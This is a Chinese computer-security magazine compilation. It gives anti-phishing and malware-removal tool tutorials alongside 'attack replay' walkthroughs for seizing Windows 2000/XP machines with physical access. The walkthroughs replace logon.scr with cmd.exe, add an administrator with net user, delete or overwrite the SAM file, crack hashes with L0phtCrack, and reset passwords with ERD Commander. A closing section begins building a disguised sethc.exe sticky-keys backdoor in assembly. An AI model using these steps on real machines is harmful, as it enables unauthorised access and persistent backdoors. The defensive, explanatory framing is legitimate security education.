网络钓鱼（Phishing）又称网络诈骗，近年来似乎有更加猖獗之势。很多网友稍不小心就会上当受骗，比如点击了恶意电子邮件中假银行网站链接或是在浏览器的地址栏输错网站的某一个字符，都有可能误入网络骗子们精心设计的钓鱼网站，导致个人资料甚至是财物的丢失。面对层出不穷的钓鱼网站，即便是高级的网络防火墙和强大的反病毒软件也无能为力，因为这是一种社会工程学课程。

钓鱼网站的“核心技术”在于欺骗，如何最快速及时识别骗局成为关键点。首先建议大家选择合适的工具，比如反钓鱼检测功能是IE7在安全方面的一个重要改进，开启后每当我们打开一个网站时，反钓鱼检测功能就会自动发挥作用，将首先核实网页地址，并和微软官方数据库进行对照，如果该站点出现在微软的Phishing站点数据库里，IE会向用户发出警告，从而最大程度地避免了用户受到欺诈。而IE8浏览器更是将网址核心内容突出显示，帮助用户分辨该网址的来源（如图9）。


- 1. IE8的安全性

建议所有的用户都安装IE8浏览器，因为在新版本中除了给我们带来更加畅快的冲浪体验外，还有更强的安全保护，帮助用户不被网络上的欺诈所蒙蔽（下载地址：http://www.skycn.com/soft/43811.html）。新版的IE浏览器号称在安全方面下了很大的功夫，增加了很多新功能，比如InPrivate Browsing“私人浏览”模式可以避免IE存储浏览记录信息、SmartScreen筛选可以实现反钓鱼攻击和智能显示等等。

在安装IE8前，软件会自动检测当前系统是否包含恶意程序。在最新的IE8中，在安装过程中首先会检测系统中的恶意软件，然后再进行浏览器的安装，这一功能可以消除系统中存在的安全隐患，将恶意软件首先清理，从而确保系统初始状态是干净无毒的。而整个过程基本不需要用户参与，所以对系统安全有着非常实在的意义。具体操作过程如下：

在安装过程中，点击“下一步”，在弹出的窗口中会提示用户安装更新，勾选“安装更新”后，在安装更新的过程中将运行Windows恶意软件删除工具来检测系统中的恶意软件。如果发现恶意软件，将会进行清理，从而确保了系统的干净。虽然说在大多数情况下这种方式并不能完全屏蔽那些致命的木马，但是从微软的出发点可以看出，其对安全的要求已经越来越高了（如图10）。


IE8的InPrivate Browsing“私人浏览”模式可以说提高了整体的安全性。在该模式下，可以自动删除使用中遗留下来的“历史记录”、“Internet临时文件”、“地址栏历史”、“Cookies”等，这些听起来似乎和网络诈骗没有关系，但事实上目前有很多间谍软件负责收集用户信息，收集点正是这些位置，进而进行下一步的诈骗活动，私人模式可以自动阻止一些恶意的第三方网站变相收集用户习惯这些行为。很多骗子就不会提前知道用户的习惯了，也就无从切入诈骗。

InPrivate模式分为两种：其中InPrivate Browsing可避免IE存储浏览过数据，包括Cookie、临时文件、历史记录等信息；另外一种InPrivate Blocking可以避免访问过的网站自动共享详细信息。具体的设置方法如下：点击菜单栏上的“工具”→“InPrivate Browsing”（或者按快捷键Ctrl+Shift+P），便进入了隐私保护模式（如图11）。


细心的朋友可能已经发现，在InPrivate Browsing菜单下面还有一项InPrivate Blocking，其实用户可以利用这种模式来自定义拦截列表，从而设置具体阻止哪些网站，具体操作是点击“工具”→“InPrivate Blocking”菜单，然后在打开的窗口中进行设置，可以自动阻止，也可以手动设置要阻止的网站（如图12）。


- 2. 排名和权重

Alexa排名是目前公认的世界上比较公平的网站排名系统。一个网站的排名反映了其用户量和关注度的情况。在浏览一些不太确定的网站时，可以先进入http://www.alexa.com/，输入网站地址后可以查看当前网站的流量情况和排名（如图13），如果排名过低，则可以肯定该网站的信度并不高，比如一个……

# 安全第一

QQ中奖网站的Alexa是好几十万，甚至更高，那它定嫌玄机，因为QQ官方网站的排名在12位。

另外一项重要参数就是PR值，PR值全称为PageRank，来自Google，本是Google用于标识网页等级/重要性的一种方法，是Google用来衡量一个网站好坏的唯一标准。级别从1到10级，10级为满分，国内查询地址：http://pr.chinaz.com/。PR值越高说明该网页越受欢迎（越重要）。虽然目前国内的网站PR值最高也在8，但如果PR值过低，还是应该提高警惕，因为在Google看来，该页面还“不够重要”（如图14）。

### 3.专属工具

上面说的方法稍显麻烦，有没有专属工具完成这些工作呢？难道我们真的就这样充当别人的鱼饵吗？著名的网络数据统计公司Netcraft向公众推出了一款名为Netcraft Toolbar的工具软件，使用者可通过分析网站信息以及软件提供的钓鱼网站数据库；这种IE8的思路有些类似，不过这款软件显然更加专业。

到http://toolbar.netcraft.com/install下载软件，目前Netcraft Toolbar支持IE、火狐（FireFox）浏览器（如图15），用户可以根据自身情况选择下载。下载安装后，Netcraft Toolbar会自动连接网络进行数据库升级。由于Netcraft Toolbar属于浏览器插件，所以需要设置后才能正常使用，我们以IE浏览器为例。重新启动系统后打开IE，选择“查看”→“工具栏”→“Netcraft Toolbar”，将工具条添加到IE中来（如图16）。

以后用IE打开网站后，Netcraft Toolbar可以自动显示网站的相关信息：比如我们打开ZOL.COM.CN，“Since”后面显示网站创建的时间，而对于一些钓鱼网站，由于其建立时间比较短，所以通过时间可以提示我们网站的真实性；“Rank”显示网站访问次数的全球排名，通过网址http://toolbar.netcraft.com/stats/topsites，你可以找到一张由Netcraft公司统计的排名前100位的网站列表（如图17）。在IE菜单点击“Site Report”链接，可以看到一份该网站的详细相关信息，主要有网站名以及域名注册商（如图18）。

我们仍然可以按照上面的方法，当我们发现某付费网站的排名和地位很低时，就要提高警惕。因为钓鱼网站模仿的再像，做的再逼真，对于网络排名是无法作弊的。如果要进一步判断某网站是不是钓鱼网站，可以进入Netcraft公司建立了钓鱼网站数据库，一旦用户试图访问的网站已被确认为钓鱼网站，Netcraft Toolbar会弹出警告窗口阻止用户进入。有些朋友会问，Netcraft Toolbar为什么有这么多钓鱼网站黑名单呢？同微软一样，也是靠广大用户不断报告新的钓鱼网站。如果你在网络冲浪时发现了钓鱼网站，也可以马上通过软件举报，服务于广大网友。单击IE工具条的“Necratf”图标，选择菜单“Report a Phishing Site”，即可来到Netcraft公司的“可疑网站报告”页面，然后填写姓名、电子邮件地址、可疑网站URL以及报告的详细情况，待Netcraft查证属实后，便会将报告的网站加入到数据库中（如图19）。

> **小结：** 网上陷阱很多，普通用户很难避开这些诈骗，安全软件可以很好的帮我们识别这些恶意网站。很多新生恶意诈骗还没有进入到识别库中，所以提高用户自身安全意识显得尤为重要。防止网络钓鱼大家务必遵守以下准则：
> 1. 尽量少去一些规模小、信誉度低的网上商店。
> 2. 在进入银行网站时注意地址栏的网址，谨防仅差一个字符的仿冒域名。
> 3. 避免轻易透露个人信息，并定期检查账户状态，必要时修改密码，可通过工具提交可疑线索。

需要注意的是，如果报告的钓鱼网站含有JavaScript恶意代码，它可能会阻止IE的正常操作，此时可以先关闭浏览器，然后将该网站相关信息发送到scam@netcraft.com。另外通过Netcraft按钮菜单“Toolbar”→“Phishiest Countries”你可以得到一张世界各钓鱼网站分布情况表。

## 五、网络诈骗玄机

总结起来，网络诈骗的根本在于骗子把握住了人性的弱点：爱贪小便宜或者喜欢占便宜。这些东西在虚拟的互联网更信不得，如果说你在网上突然发现有好事，那就应该提高警惕了。应对网络诈骗的最好方法不是投机，而是心正、脚踏实地。保持这样的心态行走网络江湖，保你不挨刀！

# Windows控制胁迫实战

## 第一部分 “屠保”背后的阴谋

### 攻击场景：

小王的办公电脑使用的还是Windows 2000系统，速度快而且系统很稳定。小王很喜欢经常更换尝试各式各样的屏保，但是今天小王发现有点儿不对劲，屏保播放时忽然弹出了一个黑漆漆的窗口，而且自己的电脑上有一些文件访问时间也发生了改变——莫非有人动过自己的电脑？自己的电脑不上网，从未想过会被攻击，难道自己终于成为了黑客攻击目标？

### 攻击事件回放：

攻击者是在小王离开自己的电脑时，对小王的电脑作了些手脚，修改了小王的屏保文件，从而成功的破解了小王的登录密码，实现对电脑系统攻击的。

- 1. 在资源管理器中，打开系统安装目录“C:\WINDOWS\System32\”，找到“logon.scr”文件（该文件就是Windows系统登录屏保文件）。

步骤二：重新启动电脑后，按下CTRL+ALT+DEL组合键，显示登录输入框（如图6）。在登录等待画面出现后静等，不做任何动作，如果没有修改屏幕保护时间，大约10分钟，系统就会自动启动登录屏保程序，运行被替换过的“logon.scr”登录屏保文件。“登录屏保”运行后，显示的是命令提示符窗口（如图7），事实上，这个屏保文件是“cmd.exe”，并且当前身份为“local system”。

如果在修改“cmd.exe”或“explorer.exe”文件名时，出现“文件已存在，无法重命名文件的提示”，说明系统开启了文件保护（如图3）。可打开记事本程序，在其中输入如下命令（如图4）。

```
bash
cd c:\windows\system32\
ren logon.scr logon.scr.bak
copy cmd.exe logon.scr
```

然后将文件保存为任意后缀名为.bat的文件，双击执行此文件即可完成登录屏保文件的替换（如图5）。

步骤三：进入CMD命令窗口后，就可以在命令行下更改管理员的密码了，输入如下命令（如图8）：

```
bash
net user administrator 123456
net user xiaoyao 123456 /add
net localgroup administrators xiaoyao /add
```

命令执行后，就以将管理员账号“administrator”的密码改为“123456”，并添加一个名为“xiaoyao”，密码为“123456”的管理员用户账号。如果想进入桌面系统，查看硬盘上面的文件，可在命令提示符状态下，输入并执行“Explorer”命令，即可顺利地进入了Windows的桌面（如图9）。注意，此时在任务栏中将显示一个“Winlogon.通用控制对话”的窗口标题。

步骤四：修改完成后重新启动系统，即可以“administrator”或新建的管理员登录了，登录密码都是“123456”。登录系统后，将备份的“logon.scr.bak”恢复为“logon.scr”即可。

### 攻击原理揭秘：

攻击者是利用Windows系统的登录屏保进行管理员密码破解的。当Windows 2000/XP在启动时，如果停留在系统登录框而不进入系统，到了指定的屏保时间后，就会自动启动屏保，如果用CMD.EXE或EXPLORER.EXE代替logon.scr，启动时实际启动的是CMD命令。而且在该命令窗口中，具有管理员权限，因此可以直接用命令更改管理员登录密码，或新建管理员账号。

## 第二部分 一个文件，引发疑案——删除SAM文件，清除登录密码

### 攻击场景：

小张打开办公室里的电脑，像往常一样输入背得滚瓜烂熟的密码，谁知却出现了密码错误的提示！重试了许多回，依然如此，谁修改了我的密码？百思不得其解，无意中直接敲下回车，竟然以空密码登录系统了！

### 事件回放：

恶意攻击者在小张不在时，启动了小张的电脑，通过删除Window2000系统中的SAM文件，或者覆盖Windows XP中的SAM文件，达到删除管理员密码，进行空密码登录的。

#### 一、Window2000系统密码清除

在Windows 2000系统中，攻击者采取了如下操作：步骤一：用Windows PE、NTFSDOS引导盘等启动系统，在DOS命令符下依次执行如下命令（如图10）：

```
a:\>c:
c:\>CD WINDOWS\SYSTEM32\CONFIG
c:\WINDOWS\system32\config>del SAM
```

步骤二：删除SAM文件后重新启动，此时管理员Administrator帐号已经没有密码了，这时可以用Administrator账户登录系统，不用输入任何密码，就可以直接进入系统中了。

#### 二、Windows XP系统密码清除

在Windows XP系统中，攻击者是通过覆盖SAM文件的方法，清除Administrator管理员帐号的登录密码：步骤一：用Windows PE、NTFSDOS引导盘等启动系统，在DOS命令符下依次执行如下命令（如图11）：

```
a:\>c:
c:\>COPY WINDOWS\repair\sam WINDOWS\SYSTEM32\CONFIG\
```

该命令执行后，即可将Windows XP中“\WINDOWS\repair\sam”文件复制到“\WINDOWS\system32\config\”目录下覆盖掉原有的文件，Administrator账号的密码即为空的了。步骤二：重新启动系统后，在登录框中输入用户名“administrator”，密码为空，即可登录系统了。

### 攻击原理揭秘：

在Windows 2000系统目录“%systemdir%\System32\Config”下有个SAM文件（即帐号密码数据库文件），它保存了系统中所有的用户名和密码。登录系统时，系统会将用户键入的用户名和密码，与SAM文件中的加密数据进行校对。如果两者完全符合，则会顺利进入系统，否则将无法登录，因此可以使用删除或覆盖SAM文件的方法来恢复管理员密码。要注意的是，在Windows XP/2003中删除SAM文件，则会在启动系统时出现“安全帐户初始化失败”的提示，会引起系统的崩溃。在Windows XP/2003系统中，“\WINDOWS\repair\”目录下的SAM文件中（如图12），保存有系统刚安装时的管理员空密码登录信息，因此可用些文件覆盖当前登录SAM文件，达到破解的目的。

## 第三部分 耐心的考验——暴力破解登录密码

### 攻击场景：

Angel的系统一向安全得滴水不漏，可是有一天她外出回到公司，意外的发现自己的电脑竟然开着机——一定是有人趁自己不在时，悄悄登录了自己的电脑！别人怎么知道Angel的密码的呢？

### 攻击事件回放：

攻击者使用了一个叫作LOPHTCRACK V5.02，直接从Angel的Windows系统SAM文件中，破解出了Angel的系统登录密码。

步骤一：攻击者运行LOPHTCRACK V5.02软件后，自动弹出任务向导对话框（如图13），点击下一步后，在弹出对话框中选择“从本地机器导入”项（如图14）。

步骤二：确定后，选择破解密码方式；其中“复杂口令破解”方式成功率最高（如图15）；选择“自定义”方式，可以进行更为复杂的破解。点击“自定义选项”按钮，在弹出对话框中，可选择破解方式为“字典攻击”模式，并可选择字典文件（如图16）；也可以选择“混合字典”破解与“暴力破解”方式，或者两种方式结合。在“字符设置”项中可以设置待破解的密码为纯数字或字符类型，也可设置为混合类型。

步骤三：确定后，再选择破解提示信息设置等（如图17），点击完成按钮，软件会自动打开系统中的SAM文件，此时LOPHTCRACK V5.02会自动分析此文件，并显示出文件中的用户名开始进行破解（如图18）。如果密码不是很复杂的话，很短的时间内就会得到结果；如果密码比较复杂的话，攻击者只需要耐心，就可以得到管理员密码。

### 攻击原理揭秘：

L0PHTCRACK V5.02是一个破解Windows系统密码和各种HASH散列密码的工具，功能非常强大。除了直接本地破解本机Windows系统密码外，还可以通过复制SAM文件，或者直接远程在线破解远程计算机系统密码。在上面的攻击事件中，攻击者可能还会直接用U盘或其他存储工具，将某台电脑的SAM帐户信息文件，复制到自己的电脑上，再慢慢地进行破解。

## 第四部分 “番茄”光盘有秘密——系统安装光盘，自动修复登录密码

### 攻击场景：

计算机系统的师兄，今天刚给胖子重作了新系统，临走时忘记把系统安装光盘带走了，胖子忙着玩游戏，心想过几天有时间再亲自给他拿回去吧！可是没想到第二天放学回来，竟然发现自己的电脑上多出了几个游戏——显然宿舍里的兄弟趁他上课动过了他的电脑，可是兄弟们是怎么知道他的密码的呢？

### 攻击事件回放：

在许多系统安装光盘中，都附带了Windows系统密码清除工具，攻击者可以直接以光盘引导系统，即可轻松破解系统登录密码。这里以“番茄花园”版的XP系统安装光盘为例：

步骤一：攻击者用光盘引导系统后，选择光盘启动界面中的“破解系统登录密码”项（如图19），回车后即可调出密码恢复工具。

步骤二：首先出现系统搜索选单；第1项表示手工选择逻辑磁盘，要求选择操作系统所在的磁盘；第2项表示自动搜索硬盘中的所有操作系统（如图20）。这里选择“1 手动选择SAM所在的分区”，回车后，显示当前的逻辑分区列表，按回车确认（如图21）。提示发现SAM文件，按下回车确认（如图22），自动分析出当前系统中的所有帐户列表，选择需要清除的帐户数字序号，回车确认（如图23）。然后会询问是否确认清除，按下Y键，很快就提示密码清除成功了（如图24）。

步骤三：重启系统，即可用空密码登录系统。

### 攻击原理揭秘：

其实“番茄花园”系统安装光盘中，是通过调用一个叫作“Active@ Password Changer”的工具，进行windows管理员登录密码清除的。Active Password Changer 3.0可全面支持NTFS/FAT32/FAT分区，并支持IDE/SATA/SCSI各种磁盘格式，真正清除所有WINDOWS系统的登录密码。

## 第五部分 “万能钥匙”，开启罪恶之门——更改管理员密码百用百灵的工具

### 攻击场景：

计算机系统大一级的高数老师，这几天正在统计上报期末考试成绩，可是常常出现一些怪事，许多学生的成绩莫名其妙被改动了。后来学校保卫科查来查去，发现原来是有学生晚上偷偷潜入老师办公室，破解电脑登录密码修改了成绩！而犯罪工具，只是一张小小的光盘“万能钥匙”……

### 攻击事件回放：

考试不好的学生想要修改成绩分数，于是用一些特殊的工具制作出系统密码破解光盘，进入办公室电脑后，用光盘轻易的修改了电脑中的成绩。

- 1. 攻击者从网上下载的ERD Commander 2005光盘镜像文件后（如图25），用刻录机将此ISO镜像文件刻录到CD光盘上，这就制作好了一张引导光盘。
- 2. 用此刚才生成的引导光盘启动任意电脑（如图26），在启动过程中，ERD 2005会让用户针对系统硬件配置进行一些选择，由于只需要修改密码，所以一路选“是”。出现启动模式选择对话框后，选择“Run ERD Commander”项，点击OK按钮（如图27）。ERD 2005会在硬盘里搜索所有已安装的系统，搜索完毕后让询问选择要修改登录密码的系统所在目录，并选择键盘或时区设置（如图28）。选择好后点击OK按钮，便可进入ERD 2005桌面（如图29）。

# 安全第一

步骤三：ERD 2005的界面与Windows XP类似，点击任务栏上的“start”开始菜单按钮，选择“管理工具（System Tools）→密码修改（locksmith）”命令（如图30），弹出“ERD Commander 2005 Locksmith Wizard”向导（如图31）。

步骤四：点击“Next”按钮，出现了修改系统登录密码的对话框。在对话框用户名下拉列表中，选择要修改的管理员用户。

名（如图32），默认为“administrator”；然后在下面的密码框中输入要设置的密码（如图33）。

完成后再点击“Next”按钮，系统提示“密码修改成功，请重新启动计算机测试新密码”（如图34）。点击“Finish”按钮之后按提示重启系统，用修改的密码就可登录对应的帐户了。

## 攻击原理揭秘：

ERD Commander 2005就是一款可以轻松修改系统管理员密码的傻瓜化软件，而且这款软件对Windows 2000/XP/2003各种版本的系统均有效。只要有了ERD Commander 2005，就有了一把登录Windows系统的万能钥匙。

# 小软大用捍卫安全没我不行

## 一、追根溯源查找元凶

幕后黑手：

小K利用BHO恶意软件下载器篡改中招机器上的浏览器辅助对象，不仅使对方访问正常网站时被转向到恶意网页。而且利用漏洞开启被控机器上的端口，以此为“入口”接管被控端的所有功能，而且还能够关闭Windows系统安全中心和自带防火墙。当被控端的用户用IM软件进行聊天时，将自动发送病毒信息。经过这种“传染性”散布，小K获得的肉鸡是越来越多。

- 化解危机：
    - 软件名称：HijackThis 2.00
    - 软件大小：207KB
    - 授权方式：免费版
    - 软件语言：英文
    - 运行环境：Win9x/Me/NT/2000/XP/2003

HijackThis号称首页绑架克星，用该程序对付劫持浏览器的BHO恶意软件直接而有效，而且能够直接修复大部分被恶意修改的内容。

步骤一：运行压缩包中的“HijackThis.exe”即可看启动程序，在初始界面中点击“确定”按钮即可进入程序（如图1）。在“New users quickstart”（新手向导）视图中用户可选择执行“Do a system scan and save a logfile”（扫描系统并保存日志）、“Do a system scan only”（开始扫描系统）、“View the list of backups”（查看备份列表）等操作，如果先不想执行操作可选择“None of the above, just start the program”直接进入主界面，本例中我们选择进入主界面。

步骤二：我们查看HijackThis主界面（如图2），在左下端的“Scan & fix stuff”项目中点击“Scan”按钮即可执行扫描操作。扫描结束后查看结果（如图3），列表中标识为“O2”的项……

目就是浏览器辅助对象（即BHO模块），其中如果有可疑的项目可勾选相应的复选框，以待修复。此外，标记为“04”的项目是从注册表中加载的启动程序，这里也是需要着重查看的。

各个数字标识所表示的项目信息如下，大家在排查问题时可自行“对号入座”。

- 1. R0、R1、R2、R3：IE默认起始主页和默认搜索页的改变
- 2. F0、F1、F2、F3：ini文件中的自动加载程序
- 3. N1、N2、N3、N4：Netscape/Mozilla的默认起始主页和默认搜索页的改变
- 4. 01：Hosts文件重定向
- 5. 02：Browser Helper Objects（BHO，浏览器辅助模块）
- 6. 03：IE浏览器的工具条
- 7. 04：自启动项
- 8. 05：控制面板中被屏蔽的IE选项
- 9. 06：IE选项被管理员禁用
- 10. 07：注册表编辑器被管理员禁用
- 11. 08：IE的右键菜单中的新增项目
- 12. 09：额外的IE“工具”菜单项目及工具栏按钮
- 13. 010：Winsock LSP“浏览器绑架”
- 14. 011：IE的高级选项中的新项目
- 15. 012：IE插件
- 16. 013：对IE默认的网址前缀的修改
- 17. 014：对“重置Web设置”的修改
- 18. 015：“受信任的站点”中的添加的网址
- 19. 016：Downloaded Program Files目录下的那些ActiveX对象
- 20. 017：域“劫持”
- 21. 018：额外的协议和协议“劫持”
- 22. 019：用户样式表（stylesheet）“劫持”
- 23. 020：注册表键值AppInit_DLLs处的自启动项
- 24. 021：注册表键ShellServiceObjectDelayLoad处的自启动项
- 25. 022：注册表键SharedTaskScheduler处的自启动项

步骤三：执行操作之前可先配置一下重要选项。点击“Other stuff”项目中的“Config...”按钮，在“Main”标签页中勾选“Make backups before fixing items”复选框，表示在修复之前进行备份；勾选“Ignore non-standard but safe domains in IE (e.g. msn.com, microsoft.com)”复选框，表示忽略IE中的非标准项，可减少误判。之后点击“Back”按钮返回主界面（如图4）。

步骤四：在选查到了劫持浏览器的“肇事者”之后，选定该项，点击“Info on selected item...”按钮可查看关于该项的介绍及程序建议的解决方法。如果要删除该项，点击“Fix checked”按钮即可尝试修复，在弹出的确认对话框中选择“是”即可（如图5）。

## 二、顽固文件“一刀斩”

幕后黑手：

小K是个玩“马”高手，最近从朋友处获得了一个只在他们黑客组织中流传的最新木马。该木马异常强悍，凡是常用的杀软、防火墙，甚至那些带有“病毒”、“专杀”、“恶意软件”等字样的窗口进程都会“碰着就死”。有了这款木马的协助，小K即便在入侵装有防护软件的机器时也能“长驱直入”。

- 化解危机：
    - 软件名称：Unlocker 1.8.5
    - 软件大小：192KB
    - 授权方式：免费版
    - 软件语言：多国语言
    - 运行环境：Win9x/Me/NT/2000/XP/2003

因为各种原因而需要手动删除病毒、木马或恶意软件时，这款小巧的Unlocker往往发挥着不可忽视的重要作用。因为现在流行的病毒、木马等大多关联到其它系统进程或锁定，这种情况下均无法在Windows正常模式下删除，而使用Unlocker则可解除这种“依存”关系。这样就可在不损害被关联的正常进程的情况下将顽固文件删除。

步骤一：将Unlocker安装完毕后，用鼠标右键单击顽固的病毒、木马之类的文件（或文件夹）。在弹出菜单中会看到新增了“Unlocker”菜单项（如图6），选择该项。

步骤三：如果该文件被锁定，那么会弹出的 Unlocker 程序窗口，其中会显示当前选定文件的路径与其依存的系统进程（如图7）。选择其中的进程，先进行“解锁”，再在左下端的下拉列表中选择“删除”操作即可。

麻烦，可选择导航菜单中的“全自动修复”，查看右侧视图，勾选“使用较高安全级别”复选框，再点击“全自动修复”按钮执行一键修复操作，解除所有限制（如图9）。

## 三、解锁非法“禁锢”

幕后黑手：

小K通过放置恶意代码等方式劫持浏览者机器的 IE 主页、搜索页，禁用下载功能，擅自安装恶意插件……在进行了一系列恶意修改操作后，为了禁止用户还原回正常的设置，还将相关功能都锁住了，这招够狠！

- 化解危机：
    - 软件名称：RegFix V1.21
    - 软件大小：209 KB
    - 软件语言：简体中文
    - 运行环境：Win9x/NT/2000/XP/2003

RegFix 是一款免费的注册表关键键值修复工具，界面友好、操作简单、实用性强。运行 RegFix 程序后，可在“手工修复”→“基本功能”中选择“文件关联类”“IE 控制类”“Windows Shell 控制类”等修复项；勾选对应复选框后点击“应用”即可。若系统问题较多，也可使用“全自动修复”功能。

## 四、照片只认我一个

幕后黑手：

DC 的普及促使很多用户的电脑中都存储有不少自己、家人或朋友的照片。小K 在入侵他人主机时喜欢“顺手牵羊”地搜罗一些对方的私人照片，而后将其在网上发布。那些颇有“塑造性”的人像照片就会被网友肆意 PS 一番。

化解危机：

软件名称：私人图片安全浏览器 V4.1
软件大小：305 KB
软件语言：简体中文
运行环境：Win9x/NT/2000/XP/2003

“私人图片安全浏览器”的优势在于不仅能加密存储各种类型的图片文件，而且可以非常方便地浏览加密过的图片。

步骤一：运行“私人图片安全浏览器”之后，点击工具栏上的“目录”按钮。而后查看弹出窗口，点击“增加路径”按钮，在弹出对话框的目录树中选择预加密照片所在目录，而后返回上一界面（如图10）。

步骤二：下面，点击“加密ALL”按钮即开始执行文件加密操作。其加密的速度还是很快的，一会儿即可完成操作，所有图片的状态均显示为加密（如图11）。此后，在资源管理器中查看适才加密的那个目录，会发现其中的原图片文件，其文件名均变为类似“ADEANQ===^$#”的形式（如图12），无法使用任何图片查看工具打开。

步骤三：当想要浏览加密照片时，先打开那个“目录”窗口，再选择其中的任意图片在“私人图片安全浏览器”中浏览，可按需对图片进行放大、缩小等控制操作（如图13）。如果想要自动切换图片，可点击工具栏上的“幻灯片”按钮自动播放浏览。另外也支持使用快捷键浏览，例如ESC键能及时隐藏图片，F9则可恢复显示，以创建更良好的安全浏览环境。

### 五、鹰抗DDoS攻击

幕后黑手：小K利用大规模的网络僵尸对某网吧进行DDoS（拒绝服务）攻击，从而导致该网吧的网络阻塞、服务器资源耗尽，基本上已处于瘫痪状态。

# 安全第一

化解危机：

软件名称：天鹰抗DDOS防火墙 V1.88
软件大小：5461 KB
软件语言：简体中文
运行环境：Win9x/NT/2000/XP/2003

相对于同类软件“天鹰抗DDOS防火墙”的优势在于操作简单，无需专业繁杂的设置，使用程序默认配置就能抵御已知的各种DDoS、CC、DB及网游私服等攻击，能够保证用户的网络畅通无阻。

### 1、安装与设置

在安装“天鹰抗DDOS防火墙”的过程中会弹出若干用户询问对话框，一般均选择确认操作即可（如图14）。将程序安装完毕后双击桌面上的“天鹰抗DDOS防火墙管理软件”快捷方式，在显示的登录窗口中输入计算机名（可使用程序默认的开放端口）（如图15）。登录后需选择与天鹰抗DDOS防火墙系统相连的网卡，选择本机正在使用的网卡即可（如图16）。确认操作后，进入到主界面。

### 2、网络监控

在“天鹰抗DDOS防火墙”管理窗口中查看“网络监控”功能界面（如图17），在此可以实时了解到本机或是远程DDOS防火墙宿主机的各个网卡的网络流量。通过查看网络流量，即可及时发现网络攻击行为。在此我们也选择查看“网络流量”中的数据，一般而言，“收TCP（SYN）”与“发TCP（SYN）”的……

# 安全第一

正常连接数据包不会超过300。如果短时间内有超此数值的大量SYN数据包，则可能是DDoS攻击。

用户自行设置后的防御效果不佳也没关系，只需点击“恢复默认值”按钮即可还原。

### 3、防御攻击

在当前窗口中切换到“访问控制”工具界面，查看右侧设置视图。在“工作模式”项目中（如图18），其默认的“正常-SYN阈值”设置下，若连接收到的SYN频率超过指定阈值，DDOS防火墙功能即开始自动防御，直至攻击停止，DDOS防火墙也会随之关闭。而如果选择“全禁止”，就将禁止任何数据包，就像是断网一样。此外，还可限制允许相同URL的次数和时间间隔。以防止因连续不断的连接，而造成CC攻击。

## 用U盘制作进入系统的门钥匙

如今U盘容量越来越大而且价格越来越低，因此普及率非常之高，相信小菜们也人手一个。想不想用U盘作为开启XP大门的钥匙来保护你的爱机呢？这样别人就会因为没有对应的U盘钥匙而无法开机，安全性自是大为提高。制作方法非常简单，也不需第三方软件，只是利用XP自身的工具一组策略，只需3步走。

打开“我的电脑”，查看一下自己U盘在Windows XP中所分配的盘符，我的盘符为K，如图1。将任意一个人文件复制到U盘的根目录中，我把一个照片放到了里面名字为“U.JPG”（如图2）。

第二步：打开Windows XP的记事本程序，输入一条命令：

```
bash
if not exist K:\u.jpg shutdown -s -f -t 3 -c "Sorry,你不是本机主人，拒绝开机！"
```

其中的“shutdown”既为关机命令，“-s”为关机的参数，“-r”为重启，“-f”为强制关机，“-t”后门跟的是倒计时3秒，“-c”提示的关机说明。本命令的意思是：如果在K盘上找不到“U.jpg”这个文件的话，就显示“Sorry,你不是本机主人”。

人，拒绝开机！”，之后过3秒就自动关机。当然，如果你在第一步中复制的是“HackerXFiles.mp3”MP3文件也行，只需在相应的命令行中修改一下就可以了。然后将文本另存为“Check.bat”。将存放路径定位于Windows XP的系统盘C:\\WINDOWS\\system32\\GroupPolicy\\Machine\\Scripts\\Startup中（因为GroupPolicy文件夹默认为隐藏，请先在“文件夹选项”中将其显示，如图3），文件的扩展名改为bat型，文件名可任意改，如hackX-files.bat。

后双击右侧中的“启动”项；在弹出的“启动属性”窗口中单击“添加”按钮，然后在弹出的“添加脚本”窗口中单击“浏览”按钮，Windows XP会自动定位于系统盘C:\\WINDOWS\\system32\\GroupPolicy\\Machine\\Scripts\\Startup文件夹，单击选中刚生成的Check.bat批处理文件后再单击“打开”按钮；之后单击一次“启动”窗口中的“确定”按钮（如图3），最后关闭组策略窗口。

第三步：打开命令符，直接按Win+R，在里面输入“gpedit.msc”，找到“本地计算机”策略——“计算机配置”——“Windows设置”——“脚本（启动/关机）”，然后……

OK，一把完美的U盘钥匙已经打造出来了，只要再启动XP之前将U盘插到主机上。等运行脚本时候会判断是否存在文件“U.JPG”，如果没有发现文件就会3秒后强制关机，拿起手中的U盘赶快试一下吧！

（文章中所用到的Check.bat已收录到光盘中）

## DIY小菜自己的粘滞键后门+替换程序

最近在“复习”黑X以前的文章时，看到了一篇关于逆向工程打造粘滞键后门的文章……于是准备打造一个小菜自己的粘滞键后门。后门程序用汇编编写……关键问题是如何将它发射出去——替换系统中正常的sethc.exe，所以还要编写一个专门用于关闭WFP（文件保护机制）的替换程序。废话不多说，接下来开始菜菜的DIY之旅。

## 一、伪造对话框

正常的sethc.exe需要按6次Shift键才可以呼出，它实际上有静态文本、三个按钮和一个对话框组成（如图1）所示，对话框调用DialogBoxParam()建立即可，该函数需要一个对话框的资源模板文件，下面是具体的资源文件代码：

```
c
#include <resource.h>
#define DLG_MAIN 1
DLG_MAIN DIALOG 100,100,270,82
STYLE DS_MODALFRAME | WS_POPUP | WS_VISIBLE | WS_CAPTION | WS_SYSMENU
CAPTION "粘滞键"
FONT 9,"宋体"
...
```

# 安全第一

```
(
//这里是静态文本
LTEXT "按下 SHIFT 键五次可以启动粘滞键。粘滞键 SHIFT、CTRL、ALT 或 Windows 徽标，一次按一个键。\n", -1,6,6,260,19
LTEXT "要保护粘滞键，请单击“确认”。\n要取消粘滞键，请单击“取消”。\n要停用粘滞键组合，请单击“设置”。", -1,6,28,260,39
//添加三个默认的按钮，命令ID分别为IDOK、IDCANCEL、IDYES
DEFPUSHBUTTON "确定", IDOK, 50,62,50,14
DEFPUSHBUTTON "取消", IDCANCEL,110,62,50,14
DEFPUSHBUTTON "设置(&S)", IDYES,170,62,50,14,WS_DISABLED
}

_DecodeString proc uses ebx esi edi ebp,szAddr,szLen,uValu:BYTE
  cld
  mov esi, szAddr
  mov ecx, szLen
.while TRUE
  lodsb
  .break .if ecx==0
  xor al,uValu
  mov byte ptr ds:[esi-1],al
  dec ecx
.endw
  ret
_DecodeString endp
```


图1

图2

需要注意“设置”按钮，S下面有个下划线，资源文件中通过字符“S”前面加“&”符号实现。如果对资源文件的编写规则不太了解，可以使用可视化资源编辑器来完成。

